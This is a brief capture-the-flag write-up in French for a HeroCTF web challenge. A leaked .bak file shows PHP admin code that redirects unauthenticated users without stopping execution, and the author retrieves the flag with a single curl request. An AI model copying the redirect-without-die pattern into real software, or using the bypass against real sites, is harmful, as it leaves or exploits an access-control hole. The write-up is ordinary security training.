 ![[Pasted image 20210426185401.png]]

Une fois sur le site, dans les commentaires HTML on voit qu'il y a un fichier `.bak`
![[Pasted image 20210426185453.png]]

il contient le code suivant:
```php
<?php

if (session_status() == PHP_SESSION_NONE) {
    session_start();
}

if (!(isset($_SESSION["logged"]) && $_SESSION["logged"] === true)) {
    header("Location: /index.php?error=You are not admin !");
}

echo "Flag : " . getenv("FLAG_MARK3TING");
```

Le code est plutôt simple. Si on n'est pas connecté on est redirigé. Seulement, après la redirection il faudrait rajouter `die();`, sinon on peut accéder au reste.
Une petite requête curl, et voilà le flag!
`curl http://chall1.heroctf.fr:9000/admin.php`

![[Pasted image 20210426185710.png]]